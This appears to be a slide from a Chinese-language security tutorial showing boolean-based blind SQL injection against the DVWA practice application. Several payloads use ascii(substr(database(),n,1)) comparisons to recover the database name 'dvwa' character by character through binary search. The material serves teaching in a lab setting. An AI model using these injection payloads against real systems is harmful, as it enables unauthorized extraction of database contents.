

# 不断尝试数据名称
一般用折半法查找
第一位1’ and ascii(substr(database(),1,1))<110 #也正确
缩减范围，最后确定100
1’ and ascii(substr(database(),1,1))=100 #   为d
第二位就把起始位改为2，和第一个一样的方法最后确定为118
1’ and ascii(substr(database(),2,1))=118 #  为v
第三位
1’ and ascii(substr(database(),3,1))=119 # 为w
第四位
1’ and ascii(substr(database(),4,1))=97 # 为a
最终数据库名称为dvwa

35
2022/6/11